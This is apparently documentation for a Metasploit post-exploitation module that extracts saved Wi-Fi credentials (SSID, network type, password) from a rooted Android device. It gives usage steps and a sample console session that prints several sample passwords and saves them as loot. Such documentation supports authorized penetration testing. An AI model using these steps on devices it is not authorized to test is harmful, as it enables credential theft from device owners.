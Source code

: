 ## Vulnerable Application

  This post-exploitation module will extract all saved Wireless access point credentials from the target android device.

## Verification Steps

  1. Start `msfconsole`
  2. Get a **root** meterpreter session (use exploit/android/local/...)
  3. `use post/android/gather/wireless_ap`
  4. `set SESSION <session id>`
  5. `run`
  6. You should be able to see the extracted credentials.

## Options

  **SESSION** - The session to run the module on.

## Extracted data

  Wireless AP credentials (SSID, network type and password)

## Scenarios


```
msf exploit(multi/handler) > use post/android/gather/wireless_ap
msf post(android/gather/wireless_ap) > set session 1
session => 1
msf post(android/gather/wireless_ap) > run

Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPA-PSK   lkjhgfdsa
 FCP_WiFi              NONE
 HomeCable             WPA-PSK   p@$$w0rd
 Troika                WPA-PSK   ika@12345
 

[+] Secrets stored in: ~/.msf4/loot/...wireless.ap.cred_...txt
[*] Post module execution completed
msf post(android/gather/wireless_ap) >
```
